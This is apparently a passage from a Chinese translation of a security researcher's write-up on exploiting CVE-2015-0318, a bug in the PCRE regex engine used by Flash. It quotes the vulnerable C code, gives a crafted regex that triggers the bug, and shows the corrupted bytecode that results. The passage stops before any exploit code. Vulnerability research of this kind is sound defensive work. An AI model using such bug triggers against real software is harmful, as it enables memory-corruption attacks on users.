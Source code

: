 # 在Flash中利用PCRE正则式漏洞CVE-2015-0318的方法

0x00 前言
=======

* * *

标题：(^Exploiting)\s_(CVE-2015-0318)\s_(in)\s*(Flash$) 作者：Mark Brand

issue[199/PSIRT-3161/CVE-2015-0318](https://code.google.com/p/google-security-research/issues/detail?id=199)

简要概述：Flash使用的PCRE正则式解析引擎（https://github.com/adobe-flash/avmplus/tree/master/pcre， 请注意公开的avmplus代码早已过期，他之前有的许多其他漏洞已经被Adobe修复，所以审计这段代码可能会比较让人灰心）。

注：明显这个引擎是有漏洞的，从上面的issue页面可以看到漏洞的相关信息。

0x01 背景
=======

* * *

```
/* For \c, a following letter is upper-cased; then the 0x40 bit is flipped.
This coding is ASCII-specific, but then the whole concept of \cx is
ASCII-specific. (However, an EBCDIC equivalent has now been added.) */

case 'c':     <---- There’s no check to see if we’re in UTF8 mode
c = *(++ptr); <---- This could be part of a multibyte unicode character
if (c == 0)
{
   *errorcodeptr = ERR2;
   break;
}

#ifndef EBCDIC  /* ASCII coding */
   if (c >= 'a' && c <= 'z') c -= 32;
   c ^= 0x40;
#else           /* EBCDIC coding */
   if (c >= 'a' && c <= 'z') c += 64;
   c ^= 0xC0;
#endif
   break;

```

以下就是当我们把转义符\c（匹配1个ASCII字符串， 译注：ANSI字符）和一个多字节的UTF-8字符合在一起的结果，我们可以简单的用“\c\xd0\x80+”来触发bug，如下：

```
\cЀ+(?1)

```

编译后会是如下字节码：

```
0000 5d0009      93 BRA              [9]
0003 1bc290      27 CHAR             ['\xc2\x90']
0006 201b        32 PLUS             ['\x1b']
0008 80         128 INVALID
0009 540009      84 KET              [9]
000c 00           0 END  

```

